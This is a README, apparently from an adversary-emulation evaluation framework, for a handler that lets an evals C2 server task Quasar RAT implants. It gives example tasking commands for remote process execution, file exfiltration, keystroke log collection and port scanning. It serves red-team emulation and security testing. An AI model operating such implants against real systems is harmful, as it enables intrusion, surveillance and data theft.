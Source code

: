 # Quasar C2 Server Compatibility Handler
This Quasar handler links the ATT&CK Evals C2 server with the standalone [Quasar C2 server by MaxXor](https://github.com/quasar/Quasar).
Note that the Quasar C2 server has been modified to support compatibility with the Evals C2 server - for more information, please see the modified
Quasar C2 server documentation in your Evals repository.

The compatibility between the Evals C2 server and the Quasar C2 server leverages REST API functionality provided by both the Evals C2 server and the modified Quasar
C2 server. 

## Features
- Tracks Quasar implant sessions that are actively connected to the Quasar server
  - Every 15 seconds, gets a list of active Quasar implant connections. New implant connections are logged as new Quasar sessions via the Evals REST API server.
  - Implant sessions that get disconnected are logged to the Evals C2 server log file.
- Can task Quasar implants to do the following:
  - Execute processes on the local target machine
  - Perform a port scan for specific ports against a given network range
  - Download files from the Quasar server (the files must exist on the Quasar server itself)
  - Upload files to the Quasar server, which the Quasar evals C2 handler will pick up and save locally on the Evals C2 server.
  - Upload logged keystrokes to the Quasar server
 
## Tasking
You can task Quasar implants by sending requests to the internal REST server using the `evalsC2client.py` script. The Quasar handler will allow operators to task the following command types using a JSON dict payload format.

The JSON dict can contain the following fields:
- `seq` - `int` that represents the task number for the implant. This is for operator usability purposes so operators don't lose track of which commands they ran so far.
- `type` - `int` that represents the task type (e.g. process execution, file download, file upload)
  - `1` - execute a process
  - `2` - download file from Quasar server
  - `3` - upload file to Quasar Server
  - `4` - upload keystroke logs to Quasar Server for the specified client.
  - `5` - perform a port scan against a network range for specific ports
- `timeout` - `int` that represents the timeout in seconds for the Quasar handler to wait for tasks to complete. Default is 120 seconds. The timeout will be rounded up to the nearest multiple of 10. Specifying `0` will use the default value.
- Specific fields for process execution (task type `1`):
  - `proc_path` - string representing the local binary on the target machine to execute
  - `proc_args` - string representing the arguments to pass
  - `download_url` - string representing where to download a binary from to execute
  - `download_dst` - string indicating where to save the binary downloaded from `download_url`
  - `use_shell` - boolean indicating whether or not to execute the process using the OS shell. See [Microsoft documentation](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.useshellexecute?view=netframework-4.7.2) for more information
  - `get_output` - boolean indicating whether or not to wait for the process to finish and retrieve stdout and stderr
  - `no_window` - boolean indicating whether or not to start the process in a new window. Some processes, like notepad, will create a new window regardless.
- Specific fields for general file transfers (task types `2` and `3`):
  - `transfer_src` - `string` that represents the source file for file transfers. Required when tasking file downloads or uploads.
  - `transfer_dst` - `string` that represents the destination file for file transfers.
- Specific fields for port scan tasks (task type `5`):
  - `range` - IPv4 CIDR `string` that specifies the target network to scan (e.g. `10.0.2.0/28`)
  - `ports` - `int` array that specifies which port(s) to scan. Must provide at least one port

Below are examples of each type code:
- `'{"seq": 1, "type": 1, "proc_path": "whoami.exe", "proc_args": "/all"}'` - the task type code `1` will have the implant execute `whoami.exe /all`, and the Quasar handler will retrieve the process stdout, stderr, PID, and exit code.
- `'{"seq": 4, "type": 1, "proc_path": "notepad.exe", "get_output": false}'` - open notepad and only retrieve the PID rather than waiting for process termination
- `{"type": 2, "transfer_src": "...", "transfer_dst": "..."}` - the task type code `2` will have the implant download the file specified by `transfer_src` from the Quasar server and save it to the path specified by `transfer_dst`. 
- `{"type": 3, "transfer_src": "...", "transfer_dst": "..."}` - the task type code `3` will have the implant upload the file specified by `transfer_src` to the Quasar server, which will save it locally as the filename specified by `transfer_dst`. The Quasar c2 handler will grab the uploaded file and save it locally on the evals c2 server machine under the `./files/` subdirectory using the same filename specified by `transfer_dst`.
- `{"type": 4}` - instruct implant to upload its keystroke log files.
- `'{"type": 5, "range": "10.0.2.0/28", "ports":[8888, 3389], "timeout": 300}'` - instruct implant to perform a port scan for ports 8888 and 3389 against the `10.0.2.0/28` network range. The C2 handler will wait 300 seconds (5 minutes) before timing out

Examples of valid tasking:
```
./evalsC2client.py --set-task <guid> '{"seq": 1, "type": 1, "proc_path": "whoami.exe", "proc_args": "/all"}'
./evalsC2client.py --set-task <guid> '{"seq": 4, "type": 1, "proc_path": "notepad.exe", "get_output": false}'
./evalsC2client.py --set-task <guid> '{"type": 2, "transfer_src": "C:\\file\\on\\quasar\\server", "transfer_dst": "C:\\dest\\on\\target\\machine"}'
./evalsC2client.py --set-task <guid> '{"type": 3, "transfer_src": "C:\\file\\to\\exfil", "transfer_dst": "exfil.zip"}'
./evalsC2client.py --set-task <guid> '{"type": 4}'
./evalsC2client.py --set-task <guid> '{"type": 5, "range": "10.0.2.0/28", "ports":[8888, 3389], "timeout": 300}'
```

## Authentication
Under the hood, the Quasar handler will send the expected API key header when making REST API requests. If updating the API key in the Quasar C2 server source code, be sure to update it in the Quasar handler source code and recompile the evals c2 server binary.

## Decrypting Client Logs
Since each Quasar client log entry line is AES-encrypted and then base64-encoded, use the `decryptquasarlogs.py` utility to decrypt client logs:
```
python3 decryptquasarlogs.py -i /path/to/encrypted/logs -o out.txt
```

You will need to install pycryptodome first: `pip install pycryptodome`

## Usage

### Configuration
To enable and configure the Quasar handler within the control server, edit the corresponding handler config file within the `config/` 
directory in the main C2 server repo. Create or adjust an existing Quasar handler entry as needed.

Example:
```
quasar:
  host: 10.0.2.7
  port: 80
  enabled: true
```

Note that `host` and `port` will not point to the address and listening port of the Evals C2 server, but rather to the address and listening port
of the Windows server running the Quasar C2 server.

Run the `controlServer` binary as `sudo` and look for success messages in starting up the Quasar handler:
```
sudo ./controlServer -c config/yourconfigfile.yml
```

## Troubleshooting
The Quasar handler uses the same logging mechanism as other Evals C2 handlers, so refer to the C2 server logs for any indication of errors. 
However, since Quasar uses a separate server that the Evals C2 handler interacts with to a limited degree, there may be issues between the Quasar server and client
that the Quasar C2 handler doesn't have visilibity on. In those instances, refer to the Quasar documentation to inspect logs and troubleshoot some issues.

Below are some potential issues and how to address them:
- Suddenly unable to task implant, or implant doesn't seem to be picking up new tasks, even though it is active and executed tasks before
  - Restart the Quasar server to refresh the connection and then try tasking again
